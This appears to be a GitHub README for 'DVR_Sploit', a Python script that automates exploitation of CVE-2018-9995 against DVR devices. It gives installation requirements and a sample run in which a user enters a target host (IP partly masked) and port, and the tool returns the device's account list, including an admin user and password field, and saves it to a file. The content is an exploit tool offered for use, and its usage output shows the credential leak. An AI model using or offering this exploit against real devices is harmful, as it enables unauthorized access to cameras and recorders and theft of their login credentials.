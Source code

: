 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

Requirements: requests (pip install requests)

Usage:
 ⚡ root@fuckmachine >> ~ > python3 dvrsploit.py            

    ___________    _________     ________       ______     __________ 
    ___  __ \_ |  / /__  __ \    __  ___/__________  /________(_)_  /_
    __  / / /_ | / /__  /_/ /    _____ \___  __ \_  /_  __ \_  /_  __/
    _  /_/ /__ |/ / _  _, _/     ____/ /__  /_/ /  / / /_/ /  / / /_  
    /_____/ _____/  /_/ |_|      /____/ _  .___//_/  \____//_/  \__/  
                                        /_/          By @mindfuckerrrr

Enter DVR host: 81.215.xxx.xxx
Enter DVR port: 88
Device list:
{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt
